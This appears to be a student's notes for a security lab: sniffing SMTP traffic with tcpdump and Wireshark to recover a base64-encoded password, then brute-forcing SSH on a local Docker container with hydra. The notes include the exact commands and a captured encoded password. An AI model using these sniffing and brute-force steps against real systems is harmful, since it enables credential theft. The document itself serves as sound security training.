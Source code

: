 ## Task0
- downloaded the script
- seen the man for tcpdump
- opened two terminal windows
- On first I started ```sudo tcpdump -i host smtp.sendgrid.net -w logz.pcap``` command
- In another window I ran the script(to sniff the packets from)
- opped logz.pcap in the wireshark
- looked where it is written pass(Or password)
- Took the value and used ```echo 'value(bXlwYXNzd29yZDk4OTgh)' | base64 --decode``` to get the actaul password.
- put the password in the 0-sniffing file.


## Task1
- Installed Docker: ```sudo snap install docker```
- Installed hydra: ```sudo apt install hydra```
- Ran the docker image: ```sudo docker run -p 2222:22 -d -ti sylvainkalache/264-1```
- Corrected dictionaries from github
- Used ```grep -l '(\w{11})' <mix-number-words file> > 11-common_pass.txt```
- Then used hydra command ```sudo hydra -l sylvain -P 11-10k_common.txt 127.0.0.1 ssh```
